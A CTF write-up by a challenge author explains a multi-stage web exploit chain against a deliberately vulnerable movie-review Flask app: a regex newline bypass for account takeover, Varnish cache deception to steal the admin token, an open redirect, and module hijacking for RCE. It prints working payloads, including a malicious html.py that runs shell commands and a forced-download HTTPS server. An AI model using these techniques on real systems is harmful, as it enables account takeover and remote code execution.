






# Film Til Dig

## Preface
I was asked to create a `hard` web challenge for this years qualifiers for De Danske Cybermesterskaber, I am every year so excited for this event and to see the young brilliant Danish minds and their hacking capabilities. Since I only do `web` I wanted to get something down that would be a challenge to most, and get at most 10 solves, which seemd to succeeed across categories (*Junior*, *Senior*, *Open*, *Nordics*). So if you are here because you struggled with the challenge, thanks for spending time on it, it is really a cool experience to create something that someone else spends time on.

## Solves
The first person to solve `part 1` and `part 2` of the challenge was no other than `asp`, and when you have to chill and watch a movie, you also need pizza, so I of course sent him a gift card to get a pizza so he could chill out (*spoiler*: he did not chill out). 




The overall solves on the challenge was the following:


## Summary
This challenge required a multi-stage exploitation chain that begins with user registration by reversing the signup code verification. After gaining a low priv user access, the exploit leverages a username/password update vulnerability where adding a newline character after a valid email address allows changing the moderator's password, this is due to a bad regex and stripping of newlines in the update functionality. Using the compromised moderator account, it is possible to exploit a cache deception vulnerability where Varnish caches all .css files, enabling them to steal the admin's session token by making the admin bot visit a specific endpoint through reporting of reviews.

With admin access, it is possible to retrieve a flag hidden in a user's username through the admin panel **First flag in house, wuhuuu**.

The second flag is obtained by misusing an open redirect in the `impersonate` functionality and making the admin bot visit it, this allows you to send the admin bot to your controlled server, where you can make it download files directly to the root directory. After enabling experimental features, you can direct the admin through the open redirect to visit your own web server containing a large html file, since superlance will restart flask when it sees the high memory consumption, the app will be refreshed and the malicious downloaded python module will be included.  

To summarize to get part 1 and part 2 you would need to do the following:

1. Initial Access
   - Register account using signup code `aar~-000q-022`
   - Login with new account credentials

2. Privilege Escalation to Moderator
   - Update own username to `moderator@movie-review.local\n` and password to `a`
   - This changes moderator's password to `a`
   - Login as moderator

3. Admin Token Theft
   - Make admin bot visit `/api/user/me.css`
   - Retrieve cached response containing admin session token
   - Set admin session token in cookies
   - See the first flag

4. Planting a malicious .py file in the root directory
   - Enable experimental features as admin
   - Setup a HTTPS server serving a html file and malicious Python payload, use a self signed cert.
   - Make the admin bot visit the impersonation experimental feature, which allows open redirect to your server.
   - Force download a malicious `html.py`  file by serving the file with a `content-disposition` header set.

5. Crashing flask so the malicious `html.py` is loaded.
   - Use the open redirect to send the bot to your `/index.html` Which contains a `<p>` element with 250 mb characters in it. 
   - Wait for `superlance` to see that the `flask` application uses too much memory and force restart to execute malicious code from the downloaded `html.py`
   - Retrieve second flag from /static/flag.css


## Detailed writeup
First things first, in this writeup I will be using the hostname `site.local` instead of the hostname used on **campfire platform**. Just to get that confusion out of the way. 

So we get a bunch of files after downloading the handout: 



It is clear from the code that there is a user separation, giving 3 types of users: `user`, `moderator` and `admin`. The first flag is placed as username for one user that only the administrator can see, and the second flag is placed in the `/root` folder with a random name. The goal is to get to `admin` level and then `rce`.

## Step 1 - Breaking the signup code
So just visiting the site we spot that we can create an account.



But we need a `signup code`, so we find the relevant part of the code handling this in `src/utils.py`:

```python
# utils.py
def verify_secret_code(code: str) -> bool:
    if not code or len(code) != 13:
        return False
    if code[4] != '-' or code[9] != '-':
        return False
        
    part1 = code[0:4]
    part2 = code[5:9]
    part3 = code[10:13]
    
    try:
        nums1 = [ord(x) for x in part1]
        nums2 = [ord(x) for x in part2]
        nums3 = [ord(x) for x in part3]

        product = 1
        for num in nums1:
            product *= num
        number = product+1
        if number < 133333337 or not is_prime(number):
            return False
        
        result = nums2[0]
        for num in nums2[1:]:
            result ^= num
        if result ^ 0x41 != 0:
            return False
            
        product = 1
        for num in nums3:
            product *= num
        if product % 20000 != 0:
            return False
            
        return True
        
    except ValueError as e:
        print(f"Error: {e}")
        return False
```

Its a list of conditions that need to be met, we need to provide a token with the format `XXXX-YYYY-ZZZ`:

1. **First part (XXXX)**:
   - The product of ASCII values + 1 must be ≥ 133,333,337 and prime

2. **Second part (YYYY)**:
   - XORing all ASCII values must equal 0x41 (ASCII for 'A')

3. **Third part (ZZZ)**:
   - The product of ASCII values must be divisible by 20,000

There is not much more to this part, I personally just wrote a script that would bruteforce the 3 parts separately:

```python
# generate_signup_code.py
from math import isqrt
import string
import random
import itertools
def is_prime(n: int) -> bool:
    if n < 2:
        return False
    if n == 2:
        return True
    if n % 2 == 0:
        return False
    
    # Only check odd numbers up to square root
    for i in range(3, isqrt(n) + 1, 2):
        if n % i == 0:
            return False
    return True

def gen_valid_code_1():

    candidates = string.printable[:-6]
    for combo in itertools.product(candidates, repeat=4):
        part1 = ''.join(combo)
        nums1 = [ord(x) for x in part1]
        product = 1
        for num in nums1:
            product *= num
        number = product + 1
        if number >= 133333337 and is_prime(number):
            print(number)
            print(f"part1: {part1}")
            return part1
    return None

def gen_valid_code_2():
    candidates = string.printable[:-6]
    
    for combo in itertools.product(candidates, repeat=4):
        part2 = ''.join(combo)
        nums2 = [ord(x) for x in part2]
        result = nums2[0]
        for num in nums2[1:]:
            result ^= num
        if result ^ 0x41 == 0:
            print(f"part2: {part2}")
            return part2
        
def gen_valid_code_3():
    candidates = string.printable[:-6]
    for combo in itertools.product(candidates, repeat=3):
        part3 = ''.join(combo)
        nums3 = [ord(x) for x in part3]
        product = 1
        for num in nums3:
            product *= num
        if product % 20000 == 0:
            print(f"part3: {part3}")
            return part3
    

code = gen_valid_code_1() +"-"+gen_valid_code_2()+"-"+gen_valid_code_3()

print(code)
```

Which when ran generated a valid code: `aar~-000q-022`, so now it was possible to sign up with a username `abe`! Let's go!


<video autoplay loop muted playsinline controls>
  <source src="/logging_in.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

## Step 2 - Breaking the email regex to become a moderator

After gaining access as a user, we spot that we can now make reviews on the movies and also update our user setting, taking a look at the api endpoint for updating user settings:

```python
#app.py
@app.route("/api/update_user" , methods=['POST'])
@require_role(['user', 'moderator', 'admin'])
def update_user():
    data = request.get_json()
    new_username = data.get('username', None)
    new_password = data.get('password', None)

    if new_username is None and new_password is None:
        return jsonify({'error': 'No changes requested'}), 400

    if new_username is not None:
        if not validate_email(new_username):
            return jsonify({'error': 'Invalid email address'}), 400
        
        conn = sqlite3.connect('movies.db')
        c = conn.cursor()
        c.execute("SELECT * FROM users WHERE username = ?", (new_username,))
        user = c.fetchone()
        conn.close()

        if user and user[1] != session['username']:
            return jsonify({'error': 'Username already taken'}), 400

        conn = sqlite3.connect('movies.db')
        c = conn.cursor()
        c.execute("UPDATE users SET username = ? WHERE username = ?", (new_username.strip(), session['username']))
        conn.commit()
        conn.close()

        session['username'] = new_username.strip()
    
    if new_password is not None:
        hashed_password = hashlib.sha1(new_password.encode()).hexdigest()
        conn = sqlite3.connect('movies.db')
        c = conn.cursor()
        c.execute("UPDATE users SET password = ? WHERE username = ?", (hashed_password, session['username']))
        conn.commit()
        conn.close()
    return jsonify({'success': True})
```

There is some funky functionality going on here, it is apparantly possible to change your username AND password in the same request, this is juicy. If we provide **both a username and password** then we will change our users email to the new email, then update the password of the new email...

We know this line from the db shema:

```python
# db.py
c.execute('''CREATE TABLE IF NOT EXISTS users 
                (id INTEGER PRIMARY KEY AUTOINCREMENT,
                username TEXT,
                password TEXT,
                role TEXT)''')
```
There is no uniqueness check on the username, so it is up to the business logic to verify that no two users have the same email, let's see if we can change our email to someone elses email.


A descrepancy can be spotted on the line checking if the username is already taken and the line doing the update of the username:

```python
# db.py
c.execute("SELECT * FROM users WHERE username = ?", (new_username,))
        user = c.fetchone()
        conn.close()

        if user and user[1] != session['username']:
            return jsonify({'error': 'Username already taken'}), 400
# ...
        c.execute("UPDATE users SET username = ? WHERE username = ?", (new_username.strip(), session['username']))
```

The supplied username is checked if its in the database, but the updated username is `stripped`, which means **to remove trailing and leading whitespace and newlines**, super interesting.

So if we can give another users username (For example the moderator) with some whitespace character pre-or-appended, then we can update our own email to someone elses, and then set the password of that user, effectively changing the password of some target user.

There is one check that we need to pass also, that is the `validate_email` check from the utilities library, it looks like the following:

```python
# utils.py
def validate_email(email):
    email_pattern = r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$'
    return bool(re.match(email_pattern, email))
```

So a regex... But a vulnerable regex, it is vulnerable to newline injection because it uses `re.match()` instead of `re.fullmatch()`.

The key vulnerability is that `re.match()` only checks if the pattern matches at the beginning of the string, not the entire string. The `^` anchor ensures the match starts at the beginning, but there's no `$` anchor at the end to ensure the pattern covers the entire input.

This means an attacker could inject a valid email followed by a newline character and malicious content:



So what we need to do is to request a username and password reset in one api call, we provide `moderator@movie-review.local\n` as the new email, and a random password `a` as the password. this will bypass the email validation and also provide a new username that is technically taken, but we will create a duplicate of it and cause the password update functionality to update the password of the actual moderator.

We could not utilize this vulnerability to become admin, since the admin does not log in with an email, but rather just the username **admin**

We can now log in as the moderator and see that we have new functionality such as reporting others reviews.

<video autoplay loop muted playsinline controls>
  <source src="/into_moderator.webm" type="video/webm">
  Your browser does not support the video tag.
</video>


## Step 3 - Abusing cache deception to steal the admins token.

So now we know that we have access to report reviews, looking at this functionality:

```python
# app.py 
@app.route('/api/report_review', methods=['POST'])
@require_role(['moderator','admin'])
def report_review():
    data = request.get_json()
    review_url = data.get('review_url')
    if not review_url or not urlparse(review_url).path.startswith('/') or "@" in review_url or ".." in review_url: # no funny business
        return jsonify({'error': 'Invalid request'}), 400
    res = bot.visit_link(review_url, session=get_admin_token(), experimental=app.config['experiments'])
    if res:
        return jsonify({'success': True})
    return jsonify({'error': 'Failed to report review'}), 500
```

```python
# bot.py
import os
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from time import sleep
from urllib.parse import urlparse

reported_reviews = []

def visit_link(url, session, experimental=False):
    print(f'Visiting link: {url}', flush=True)
    if not url.startswith('/'):
        return False
    try:
        real_url = 'http://localhost:80' + url
        url = real_url

            
        options = Options()
        options.add_argument('--headless')
        options.add_argument('--disable-extensions')
        options.add_argument('--disable-gpu')
        options.add_argument('--no-sandbox')
        options.add_argument('--disable-software-rasterizer')
        options.add_argument('--disable-dev-shm-usage')
        options.add_argument('--js-flags=--noexpose_wasm,--jitless')
        
        if experimental:
            prefs = {
                "download.default_directory": os.getcwd(),
                "safebrowsing.enabled": "true"
            }
            options.add_experimental_option("prefs", prefs)
            options.add_argument('--ignore-certificate-errors')
        
        driver = webdriver.Chrome(options=options)
        
        parsed_url = urlparse(url)
        domain = parsed_url.netloc
        
        driver.execute_cdp_cmd('Network.enable', {})
        driver.execute_cdp_cmd('Network.setCookie', {
            'name': "session",
            'value': session,
            'domain': domain
        })
        
        driver.get(url)
        sleep(3)
        

        if experimental:
            p_element = driver.find_elements(By.TAG_NAME, 'p')
            text = ''
            for element in p_element:
                text += element.text
                reported_reviews.append(element.text)
            # idk here do something with the text, maybe some llm stuff?
            


        driver.close()
        driver.quit()
        return True
    except Exception as e:
        driver.close()
        driver.quit()
        return False
```

We can see that it is possible to make an admin bot visit a relative url on the site, there seems to be OK protection for not sending the admin bot out of bounds. We can also see that the admin bot when visiting has the admin cookie set, so it will view the site as if it was logged in.

The intended way is not to send the admin out of bounds, (but let me know if you found a way to do it at this point) but instead abuse the *caching functionality*

This config shows that all endpoints ending in `.css`,`.js`,`.gif`,`.png` will be cached by the varnish cache. This is the relevant code block from `default.vcl`:

```txt

sub vcl_hash {
    hash_data(req.url);
    if (req.url ~ "\.(js|css|png|gif)$") { # Tailwind.css is very heavy so we want to cache it. 
        return (lookup);
    }
}

sub vcl_recv {
    if (req.url ~ "\.(js|css|png|gif)$") {
        set req.http.Cache-Control = "max-age=10";
        return (hash);
    }
}

sub vcl_backend_response {
    if (bereq.url ~ "\.(js|css|png|gif)$") {
        unset beresp.http.Vary;
        set beresp.ttl = 10s;
        set beresp.http.Cache-Control = "max-age=10";
        unset beresp.http.Pragma;
        unset beresp.http.Expires;
    }
}
```

So we can essentially view any page as the admin if we request that the admin visits that page, so long as it ends in one of the cacheable extensions. So we search the `app.py` for useful functionality and find the `/api/user/me` endpoint:

```python
# app.py
@app.route('/api/user/<path:text>', methods=['GET'])
@require_role(['user', 'moderator', 'admin'])
def user(text=None):
    if session['role'] == 'admin' and text is not None:
        conn = sqlite3.connect('movies.db')
        c = conn.cursor()
        c.execute("SELECT * FROM users WHERE username = ?", (text,))
        user = c.fetchone()
        conn.close()
       
        if user:
            session_data = {
                'user_id': user[0],
                'username': user[1],
                'role': user[3]
            }
            s = SecureCookieSessionInterface().get_signing_serializer(app)
            signed_session = s.dumps(session_data)
            return jsonify({
                'user': [user[0], user[1], user[3]],
                'session_token': signed_session
            })
    session_data = {
        'user_id': session.get('user_id'),
        'username': session.get('username'),
        'role': session.get('role')
    }
    
    session_cookie = request.cookies.get('session')
    return jsonify({
        'user': session_data,
        'session_token': session_cookie
    })
```

This endpoint has a vulnerability in the route declaration, namely the `/api/user/<path:text>'` part, that allows us to put anything in to the `path` variable. The code describes that if the admin requests this endpoint, their session token will be given back to them, so if we request the admin to visit `/api/user/me.css` they will receive their token back in json, but also make varnish cache this endpoint, if we request it ourselves the request won't hit the flask server, but instead the varnish will give us the cached version, allowing us to see the admins session token.



Adding this session token to our cookies allows us to log in as admin



<video autoplay loop muted playsinline controls>
  <source src="/becoming_admin.webm" type="video/webm">
  Your browser does not support the video tag.
</video>


## Step 4 - Abusing the open redirect to downlod a malicious python module

For the next flag we know that we need to get code execution on the server since the flag is in a randomly generated file in the `/root` folder on the machine.

We can look at the new functionality we have access to, which is to enable `experimental features`, this includes the following from the `bot.py`

```python
# bot.py
if experimental:
    prefs = {
        "download.default_directory": os.getcwd(),
        "safebrowsing.enabled": "true"
    }
    options.add_experimental_option("prefs", prefs)
    options.add_argument('--ignore-certificate-errors')

#...

if experimental:
    p_element = driver.find_elements(By.TAG_NAME, 'p')
    text = ''
    for element in p_element:
        text += element.text
        reported_reviews.append(element.text)
    # idk here do something with the text, maybe some llm stuff?
```

So when enabling experimental mode, we enable the chrome options for downloading files to the current directory (where `bot.py` is located), safebrowsing is also enabled, which forces the bot to only be allowed to visit `https` links, except for local connections. (This was an issue for many players when testing local vs remote, that they were missing `https`).

There is also new functionality in the admin panel that allows impersonating another after enabling experiments user:

```python
# app.py
@app.route('/admin/impersonate', methods=['GET'])
@require_role(['admin'])
def impersonate():
    if not app.config['experiments']:
        return jsonify({'error': 'Experiments are not enabled'}), 403
    
    username = request.args.get('username')
    if not username:
        return jsonify({'error': 'No username specified'}), 400

    conn = sqlite3.connect('movies.db')
    c = conn.cursor()
    c.execute("SELECT * FROM users WHERE username = ?", (username,))
    user = c.fetchone()
    conn.close()
    
    if user:
        session.clear() 
        session['user_id'] = user[0]
        session['username'] = user[1]
        session['role'] = user[3]
        
        return render_template('impersonate.html')
    else:
        return redirect(url_for('admin'))
```

This basically allows the admin to turn into any other user, but there is no apparant vuln in this part, we have to look at the url requested when clicking the impersonate button.

    /admin/impersonate?username=moderator%40movie-review.local&redirect_to=%2Fprofile

So there is another parameter in the get request `redirect_to` that is not reflected in the backend code, this indicates that it is used in the frontend js, let's look at the javascript for `impersonate.html`

```javascript
# impersonate.html
<script>
    document.addEventListener('DOMContentLoaded', function() {
        const urlParams = new URLSearchParams(window.location.search);
        const redirectTo = urlParams.get('redirect_to') ? decodeURIComponent(urlParams.get('redirect_to')) : '/movies';

        setTimeout(() => {
            window.location.replace(redirectTo);
        }, 2000);
    });
</script>
```

Alright, so it seems that the frontend javascript times out for 2 seconds, then directs the user to the page in the `GET` parameter `redirect_to`. We can abuse this by setting any remote full URL into the parameter, to make an `open redirect`.

This means that if an admin visits the link `/admin/impersonate?username=moderator%40movie-review.local&redirect_to=https://example.com/` they will be directed to `https://example.com` after two seconds.

We can abuse this functionality with the admin bot to send it out of bounds, but where should we send it and what should we serve it?

We know from the experimental features that the bot will download files to the root directory if served downloadable files. **This is quite a vulnerability** since if we make the bot download a malicious python module to the folder that `app.py` resides in, then due to the order in the `module search path` (https://docs.python.org/3/tutorial/modules.html#the-module-search-path) the malicious module will be preferred over the actual module.

In concrete terms what this means, is that since `app.py` imports `html.py` and uses the function `escape()` from the import, then if we manage to put a file `html.py` into the same directory as `app.py` is in, with a function definition for `escape()` then it will be used over the intended `html.py`. 

So let´s create a malicious `html.py` that has a function `escape()` that reads every file in `/root/` out to a file `flagt.css` in the directory serving static files (`/app/static`)

`html.py:`
```python
# html.py (the evil one)
import subprocess

#Follow the exact way the function is used in app.py
def escape(a,quote="a"):
  subprocess.run("cat /root/*.txt > /app/static/flag.css", shell=True)
```

Now we have the payload, let's get it delivered. We need to host a web server with https that when prompted for this file will send it for download.

What makes the browser download a file instead of just showing it is the `Content-Disposition` header, so when a browser visits our server looking for `html.py` we need to return the header

    Content-Disposition: attachment; filename="html.py"

We can create a web server that does this with the following python code:

```python
# httpsserver.py
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl
import mimetypes
import os
import time
import socket

class StreamingHandler(SimpleHTTPRequestHandler):
    def send_chunk(self, chunk):
        try:
            self.wfile.write(chunk)
            self.wfile.flush()
            return True
        except (ssl.SSLEOFError, ssl.SSLError, ConnectionResetError,
                BrokenPipeError, socket.error):
            return False

    def do_GET(self):
        if os.path.isfile(self.translate_path(self.path)) and not self.path.endswith('.html'):
            try:
                self.send_response(200)
                self.send_header('Content-Type', mimetypes.guess_type(self.path)[0])
                self.send_header('Content-Disposition',
                               f'attachment; filename="{os.path.basename(self.path)}"')
                self.send_header('Content-Length',
                               str(os.path.getsize(self.translate_path(self.path))))
                self.end_headers()

                with open(self.translate_path(self.path), 'rb') as f:
                    self.copyfile(f, self.wfile)
            except Exception as e:
                print(f"Error serving file: {type(e).__name__}: {str(e)}")
                return
        else:
            super().do_GET()

def run_server(port=443, cert_file='cert.pem', key_file='key.pem'):
    server = HTTPServer(('0.0.0.0', port), StreamingHandler)
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
    context.load_cert_chain(cert_file, key_file)
    server.socket = context.wrap_socket(server.socket, server_side=True)
    print(f"Server running on port {port}")
    server.serve_forever()

def create_self_signed_certs():
    if not os.path.exists('cert.pem') or not os.path.exists('key.pem'):
        os.system('openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"')
        print("Created self-signed certificates")

if __name__ == '__main__':
    create_self_signed_certs()
    run_server(port=443)
```

This HTTPS server creates a self signed certificate and accepts connections with TLS on only, additionally it serves every single file as a downloadable, except for `.html` files that will be displayed (Coming back to this).

So from here let us:

1. Enable experimental features in the admin panel.
2. Create a malicious `html.py` to be downloaded by the bot.
3. Serve a `https web server` that will send `.py` files as downloadables.
4. Abuse the `open redirect` vulnerability in the impersonate functionality to send the bot to our server.
5. Make the bot download the malicious `html.py` to the root directory, next to `app.py`


See it in action below:

<video autoplay loop muted playsinline controls>
  <source src="/download_html.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

## Step 5 - Crashing flask to force reload modules and get remote code execution

So the last step is to actually get the server to execute the malicious function in the malicious `html.py` module. The module is not used right out of the box since the modules are loaded in memory to start, and therefore the real functions will be used. 

Flask has to restart to reload the modules, so our goal is to either make it crash or force it to restart 😈

For this we have to go back and revisit the `supervisord.conf` file, which has a very important line in it:

```txt
# supervisord.conf
[supervisord]
nodaemon=true

[program:flaskapp]
command=python app.py
directory=/app
autorestart=true
stopasgroup=true
killasgroup=true
stdout_logfile=/var/log/supervisor/flask.log
stderr_logfile=/var/log/supervisor/flask.err

[program:varnishd]
command=varnishd -F -a :80 -f /default.vcl -s malloc,256m
autorestart=true
stopasgroup=true
killasgroup=true

[eventlistener:memmon]
command=memmon -c -a 250MB
events=TICK_60
```

Namely that `superlance` is being used to monitor excessive memory usage and kill processes that exceed a set limit. This configuration file shows that any process managed by `supervisord` that exceed *250 mb*  of memory will get restarted, this is checked every 60 second (`memmon -c -a 250MB` and`TICK_60`).

So the goal is to make the server use more than 250 mb of memory so that it will be killed, restarted and the malicious module will be loaded.

If we go back to the `bot.py` file, we can spot this line of code:
```python
# bot.py
reported_reviews = []

#...

if experimental:
    p_element = driver.find_elements(By.TAG_NAME, 'p')
    text = ''
    for element in p_element:
        text += element.text
        reported_reviews.append(element.text)
    # idk here do something with the text, maybe some llm stuff?
```

So here is something funny, the bot when visiting a link will parse and look for all `<p>` tags and save their content to a global list, this global list can help us fill up the memory of the application. 

If we reuse the `open redirect` vulnerability to force the bot to visit one of our own links again, but provide a *HUGE* `<p>` tag, we will make the flask service hog op memory, hopefully enough to make `superlance` come around and restart it.

We can create such an `index.html` file with the following python one-liner:

```python
open('index.html', 'w').write('<!DOCTYPE html><html><head></head><body><p>' + 'x'*1000*1000*50 + '</p></body></html>')
```

This creates a `50 mb` `<p>` tag, it could be possible to create a larger, but the bot has a timeout of max 10 seconds of live time, and we want to make sure that the bot actually manages to download and parse the huge html document in time, since it is kept in memory we can just force to bot to visit many times, until memory is exceeded.

So let us send the bot to our huge `index.html` file and wait for the service to get restarted, afterwards we can just log in and go to the main page where the function `escape()` is used on the main page.

<video autoplay loop muted playsinline controls>
  <source src="/crash.webm" type="video/webm">
